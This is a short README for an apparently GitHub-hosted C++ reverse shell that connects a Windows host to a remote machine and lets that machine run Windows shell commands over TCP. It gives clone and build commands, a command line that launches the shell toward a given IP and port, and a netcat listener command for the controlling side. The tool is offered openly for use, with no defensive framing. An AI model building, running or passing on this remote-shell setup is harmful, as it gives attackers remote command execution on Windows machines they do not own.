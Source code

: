# C ++ Reverse Shell

Connect Windows host to a remote machine and run Windows shell commands remotely over TCP.

## Building

Prerequisite: MinGW or MSYS2 compiler toolchain.

```
git clone https://github.com/dev-frog/C-Reverse-Shell.git
cd C-Reverse-Shell
make
```  

## Testing

On the Windows machine:

```
./c-reverse-shell.exe 192.168.1.3 4444
```

On the remote machine:

```
netcat -lvnp 4444
```

Start typing commands on the remote machine, right after receiving "Connection from..." message.

